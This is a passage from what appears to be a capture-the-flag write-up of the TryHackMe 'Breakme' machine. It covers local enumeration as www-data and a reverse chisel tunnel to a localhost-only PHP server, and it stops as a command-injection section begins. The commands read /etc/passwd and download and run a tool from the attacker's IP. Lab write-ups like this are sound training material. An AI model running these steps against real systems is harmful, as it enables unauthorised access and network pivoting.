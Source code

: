 ### The Internal Webserver

Checking the `/etc/passwd`, we discover two users on the machine: `john` and `youcef`.

```console
www-data@Breakme:/var/www$ cat /etc/passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
john:x:1002:1002:john wick,14,14,14:/home/john:/bin/bash
youcef:x:1000:1000:youcef,17,17,17:/home/youcef:/bin/bash
```

Checking the processes belonging to the `john` user, we discover that the user is running a `PHP` development server.

```console
www-data@Breakme:/var/www$ ps -aux | grep john
john         531  0.0  0.9 193800 20188 ?        Ss   20:03   0:00 /usr/bin/php -S 127.0.0.1:9999
```
{: .wrap }

Since the web server is bound to `127.0.0.1`, we can use `chisel` to forward it for access.

First, starting `chisel` in server mode on our machine.

```console
$ chisel server -p 7777 --reverse
```

After that, downloading `chisel` to the target machine and running it in client mode, forwarding port `9999`.

```console
www-data@Breakme:/tmp$ curl -s http://10.11.72.22/chisel -o chisel
www-data@Breakme:/tmp$ chmod +x chisel
www-data@Breakme:/tmp$ ./chisel client 10.11.72.22:7777 R:9999:127.0.0.1:9999 &
```

### Command Injection

Now, visiting `http://127.0.0.1:9999/`, we see three input fields.

![Web 9999 Index](/images/tryhackme_breakme/web_9999_index.webp){: width="1200" height="600" }
